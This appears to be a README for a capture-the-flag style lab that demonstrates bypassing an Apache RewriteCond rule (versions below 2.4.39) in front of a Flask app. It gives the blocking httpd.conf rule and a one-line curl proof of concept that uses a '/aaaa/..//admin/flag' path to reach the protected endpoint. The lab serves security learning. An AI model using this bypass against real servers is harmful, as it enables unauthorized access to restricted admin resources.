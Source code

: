 ### Apache + Flask

RewriteCond bypass. Apache version < 2.4.39

Try to access /admin/flag

### Usage

Run
```
docker-compose up
```

Go http://127.0.0.1:8085/

### Hint
httpd.conf
```
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/admin/flag$ [NC]
RewriteRule ^.*$ - [F,L]

ProxyPreserveHost On
ProxyPass / http://127.0.0.1:3000/
ProxyPassReverse / http://127.0.0.1:3000/
```

### POC
``` bash
curl --path-as-is "http://127.0.0.1:8085/aaaa/..//admin/flag"
```